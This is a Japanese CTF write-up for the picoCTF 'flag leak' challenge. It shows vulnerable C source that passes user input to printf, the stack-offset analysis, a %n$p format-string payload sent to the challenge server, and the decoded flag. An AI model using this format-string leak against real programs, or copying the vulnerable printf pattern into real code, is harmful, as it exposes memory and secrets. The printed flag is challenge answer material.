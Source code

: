 # flag leak : Binary Exploitation

Story telling class 1/2  
I'm just copying and pasting with this [program](vuln). What can go wrong? You can view source [here](vuln.c). And connect with it using:  
`nc saturn.picoctf.net 52043`

Author : Neel Bhavsar

# Solution

とりあえず、実行してみる。
```
$ nc saturn.picoctf.net 52043
Tell me a story and then I'll tell you one >> %p%p%p%p%p%p%p%p%p%p
Here's a story - 
0xff81f0900xff81f0b00x80493460x702570250x702570250x702570250x702570250x702570250xffffff00(nil)
```
ソースコードを確認する。
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

void readflag(char* buf, size_t len) {
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,len,f); // size bound read
}

void vuln(){
   char flag[BUFSIZE];
   char story[128];

   readflag(flag, FLAGSIZE);

   printf("Tell me a story and then I'll tell you one >> ");
   scanf("%127s", story);
   printf("Here's a story - \n");
   printf(story);
   printf("\n");
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  return 0;
}
```
pwntoolsのfmtstr_payloadを用いて、printf(story)のstoryのアドレスからreadflag(flag, FLAGSIZE)のflagのアドレスまでの差分をとて、%n$pでflagの内容を出力する。
```
$ checksec vuln
[*] Checking for new versions of pwntools
    To disable this functionality, set the contents of /home/colza-picoctf/.cache/.pwntools-cache-3.10/update to 'never' (old way).
    Or add the following lines to ~/.pwn.conf or ~/.config/pwn.conf (or /etc/pwn.conf system-wide):
        [update]
        interval=never
[*] You have the latest version of Pwntools (4.13.1)
[*] '/home/colza-picoctf/vuln'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x8048000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```
storyのアドレスを探す。
```
 804939d:       8d 85 38 ff ff ff       lea    eax,[ebp-0xc8]
 80493a3:       50                      push   eax
 80493a4:       e8 47 fd ff ff          call   80490f0 <printf@plt>
```
```
   0x8049392 <vuln+95>     call   puts@plt                    <puts@plt>

   0x8049397 <vuln+100>    add    esp, 0x10             ESP => 0xffffced0 (0xffffcec0 + 0x10)
   0x804939a <vuln+103>    sub    esp, 0xc              ESP => 0xffffcec4 (0xffffced0 - 0xc)
 ► 0x804939d <vuln+106>    lea    eax, [ebp - 0xc8]     EAX => 0xffffced0 ◂— 'aaaaaaaaaaaaaaaaaaaaa'
```
storyのアドレスが0xffffced0と分かる。  
flagのアドレスを探す。
```
   0x0804934f <+28>:    push   0x40
   0x08049351 <+30>:    lea    eax,[ebp-0x48]
   0x08049354 <+33>:    push   eax
   0x08049355 <+34>:    call   0x80492b6 <readflag>
```
```
   0x08049318 <+98>:    mov    eax,DWORD PTR [ebp+0xc]
   0x0804931b <+101>:   sub    esp,0x4
   0x0804931e <+104>:   push   DWORD PTR [ebp-0xc]
   0x08049321 <+107>:   push   eax
   0x08049322 <+108>:   push   DWORD PTR [ebp+0x8]
   0x08049325 <+111>:   call   0x8049100 <fgets@plt>
```
```
───────────────────────────────────────────[ DISASM / i386 / set emulate on ]───────────────────────────────────────────
 ► 0x8049351 <vuln+30>    lea    eax, [ebp - 0x48]     EAX => 0xffffcf50 —▸ 0xffffcfb8 —▸ 0xf7ffd020 (_rtld_global) ◂— ...
   0x8049354 <vuln+33>    push   eax
   0x8049355 <vuln+34>    call   readflag                    <readflag>
```
```
 ► 0x8049351 <vuln+30>    lea    eax, [ebp - 0x48]     EAX => 0xffffcf50 —▸ 0xffffcfb8 —▸ 0xf7ffd020 (_rtld_global) ◂— ...
   0x8049354 <vuln+33>    push   eax
   0x8049355 <vuln+34>    call   readflag                    <readflag>
```
flagのアドレスが0xffffcf50と分かる。  
0xffffcf50-0xffffced0=0x80  
32bitであることに留意すると、0x80分のoffsetは`0x80/0x4=0x20=32`である。入力からstoryまでのoffsetが4であり、FLAGSIZEが64であるから36~45を出力させれば良い。
```
$ nc saturn.picoctf.net 52043
Tell me a story and then I'll tell you one >>  %36$p%37$p%38$p%39$p%40$p%41$p%42$p%43$p%44$p%45$p
Here's a story - 
0x6f6369700x7b4654430x6b34334c0x5f676e310x67346c460x6666305f0x3474535f0x395f6b630x326539390x7d343238
```
これをcyberchefでFrom HEXする。
```
ocip{FTCk43L_gn1g4lFff0_4tS_9_kc2e99}428
```
並び替える。

flagが得られた。

`picoCTF{L34k1ng_Fl4g_0ff_St4ck_999e2824}`

# References

https://medium.com/@0xwan/picoctf-2022-flag-leak-writeup-binary-exploitation-8d5194fb36f0
